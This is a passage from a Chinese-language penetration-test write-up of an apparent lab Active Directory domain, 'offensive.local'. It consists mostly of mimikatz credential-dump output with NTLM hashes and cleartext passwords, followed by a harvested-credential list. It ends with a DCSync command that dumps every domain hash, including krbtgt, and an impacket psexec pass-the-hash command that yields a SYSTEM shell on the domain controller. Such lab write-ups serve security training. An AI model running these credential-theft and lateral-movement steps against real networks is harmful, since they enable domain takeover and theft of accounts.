Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               :
        msv :
         [00000003] Primary
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * NTLM     : 59ab3dfeddfacedcd7d2704188718ad3
         * SHA1     : 708352ea62e24ed909098b0993e87045dfe7f38b
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 96644 (00000000:00017984)
Session           : Service from 0
User Name         : SQLTELEMETRY$SQLEXPRESS
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:41 AM
SID               : S-1-5-80-1985561900-798682989-2213159822-1904180398-3434236965
        msv :
         [00000003] Primary
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * NTLM     : 59ab3dfeddfacedcd7d2704188718ad3
         * SHA1     : 708352ea62e24ed909098b0993e87045dfe7f38b
        tspkg :
        wdigest :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        kerberos :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive.local
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        ssp :
        credman :

Authentication Id : 0 ; 66314 (00000000:0001030a)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * NTLM     : 59ab3dfeddfacedcd7d2704188718ad3
         * SHA1     : 708352ea62e24ed909098b0993e87045dfe7f38b
        tspkg :
        wdigest :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        kerberos :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive.local
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : OFFENSIVE-SQL1$
Domain            : offensive
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        kerberos :
         * Username : offensive-sql1$
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 103498 (00000000:0001944a)
Session           : Service from 0
User Name         : dbadmin
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 6:29:41 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1105
        msv :
         [00000003] Primary
         * Username : dbadmin
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : 37eea036fd176a12c4ff3b248a3ac97a
        tspkg :
        wdigest :
         * Username : dbadmin
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : dbadmin
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : OFFENSIVE-SQL1$
Domain            : offensive
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * NTLM     : 59ab3dfeddfacedcd7d2704188718ad3
         * SHA1     : 708352ea62e24ed909098b0993e87045dfe7f38b
        tspkg :
        wdigest :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        kerberos :
         * Username : offensive-sql1$
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 192865 (00000000:0002f161)
Session           : Interactive from 1
User Name         : dbadmin
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 6:29:49 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1105
        msv :
         [00000003] Primary
         * Username : dbadmin
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : 37eea036fd176a12c4ff3b248a3ac97a
        tspkg :
        wdigest :
         * Username : dbadmin
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : dbadmin
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 66257 (00000000:000102d1)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * NTLM     : 59ab3dfeddfacedcd7d2704188718ad3
         * SHA1     : 708352ea62e24ed909098b0993e87045dfe7f38b
        tspkg :
        wdigest :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        kerberos :
         * Username : OFFENSIVE-SQL1$
         * Domain   : offensive.local
         * Password : 0c c3 72 3e 6b 11 2f 7b fe d2 ac 7d 15 aa 0d ee f4 8d 5e 49 b1 e5 6d 01 b6 a5 aa e0 e2 4d 2d f7 fb 5c e5 01 52 9d a3 29 09 0a db 67 a5 41 a2 98 40 52 26 38 fc 14 27 e6 f5 51 7a f6 83 e8 eb e3 00 c0 eb 0f 08 98 cb c9 5c 70 3a b7 48 26 44 2a f3 14 83 55 94 aa 85 e3 f8 8f 00 55 67 5c 34 33 57 96 14 29 4f 74 0c 0e b0 94 e2 3b 4d af b5 e8 3e f0 ad 32 bc f0 03 09 09 cf 78 3c e3 00 fa 7a cd ab 1a fc 11 73 97 35 27 30 c1 c5 99 51 8f b1 8d e0 bf 68 9c 8c f6 4b 49 b4 30 34 71 78 8b 60 56 95 7c b9 b9 33 ee 66 08 e9 24 df 0c 01 eb 7d e7 4b 92 64 09 d5 78 93 48 b0 d2 49 ec c1 a0 82 bb ac 4f 8e ad 72 f4 e3 c2 6f 8e 72 f4 00 80 f7 7e 53 34 7d 95 ab 06 35 6c 2d f5 e7 78 57 8b 76 b6 3a 7f ef 4d 39 3a ca 60 db f5 79 d2 aa e0 f9
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/20/2023 6:29:40 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!
```

提取重点信息，结合第一台主机抓取到的账密

```
CLIENT1$:c80cdf882f4efbfbfd9ef36f20e3e145
offensive\Alice:admin@123
offensive\Alice:579da618cfbfa85247acf1f800a280a4
offensive\dbadmin:admin@123
offensive\dbadmin:579da618cfbfa85247acf1f800a280a4
offensive\OFFENSIVE-SQL1$:59ab3dfeddfacedcd7d2704188718ad3
```

开启3389直接远程上线



## 横向渗透-DCSync

其实刚刚在powershell里就可以获取了，但是我忘了，在这里补上吧。

```
mimikatz # lsadump::dcsync /domain:offensive.local /all /csv
[DC] 'offensive.local' will be the domain
[DC] 'dc.offensive.local' will be the DC server
[DC] Exporting domain 'offensive.local'
502     krbtgt  61d83c569b93bfcd4ca2087011361caa
1104    dbuser1 fc525c9683e8fe067095ba2ddc971889
500     Administrator   c456c606a647ef44b646c44a227917a4
1106    SQL1$   9f8482a3e31287796f3c90e44b5030e3
1000    DC$     bf08289a086d4e6736134aa7b269a69d
1107    CLIENT1$        c80cdf882f4efbfbfd9ef36f20e3e145
1103    Alice   579da618cfbfa85247acf1f800a280a4
1105    dbadmin 579da618cfbfa85247acf1f800a280a4
1601    OFFENSIVE-SQL1$ 59ab3dfeddfacedcd7d2704188718ad3
```

## 横向渗透-PTH

直接PSEcex上线域控，收工

```
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ python3 psexec.py -hashes :c456c606a647ef44b646c44a227917a4 offensive/administrator@192.168.159.200 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.159.200.....
[*] Found writable share ADMIN$
[*] Uploading file JTBjLOyI.exe
[*] Opening SVCManager on 192.168.159.200.....
[*] Creating service ienC on 192.168.159.200.....
[*] Starting service ienC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::2dae:6562:56da:f90%4
   IPv4 Address. . . . . . . . . . . : 192.168.159.200
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.159.2

Tunnel adapter isatap.{E9EB7E4F-2208-49CB-86F4-604F3D5292E2}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32> 

```
